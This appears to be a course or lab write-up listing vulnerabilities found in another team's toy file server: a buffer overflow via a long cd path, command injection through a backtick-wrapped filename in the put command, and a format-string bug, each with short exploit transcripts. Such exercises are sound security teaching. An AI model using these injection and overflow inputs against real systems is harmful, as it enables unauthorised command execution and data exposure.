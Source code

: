 ## Team1

### Buffer overflow

* Giving a long path to the CD command will overflow the path buffer. The code as it is, is trying to set an invalid array positon. The only catch is that, the directory which we want to cd into, should exist.

```C
char path[128];
// check size limitations
size_t len = strlen(current);
strncpy(path, current, len);
path[128] = '\0';
```
```
Server output:
 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: cd AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
mc08 56 $ 

```
### Command injection

* The put comand creates a file by using the '>' operator. We can thus inject commands in the filename

Getting back a list of all usernames on the server:
```
mc08 124 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
put `users` 4
open(): No such file or directory
put port: 64049
Attempting to transfer file before put call
mc08 125 $ ./client 127.0.0.1 31337
[i] Connecting to 127.0.0.1:31337
login n
pass 1
ls
total 0
-rw-r----- 1 njaganna njaganna 0 Mar 18 12:00 achiraya chou63 chou63 njaganna njaganna wei253 wu1220

```
### Format string

* All the alias commands are run using Popen. Before this, they are all printed to the stderr of the server using fprintf.
```C
std::string msg("=== Running subprocess: " + cmd);
fprintf(stderr, msg.c_str());
```
If the alias would have taken user input, this would have been exploitable. As this is not implemented, we can use the put command to overwrite the conf file as directory structure is not implemented. If the server restarts, this new conf file will be read and the exploit will work.
```
Server:

 [127.0.0.1] Received line: login n
 [127.0.0.1] Received line: pass 1
 [127.0.0.1] Successfully logged in as: n
 [127.0.0.1] Received line: echo
Segmentation fault (core dumped)

Client:

[i] Connecting to 127.0.0.1:3490
login n
pass 1
echo
[!] Disconnected from server
mc02 75 $
```

### Design bugs

* None of the alias commands take parameters.
* No directory structure


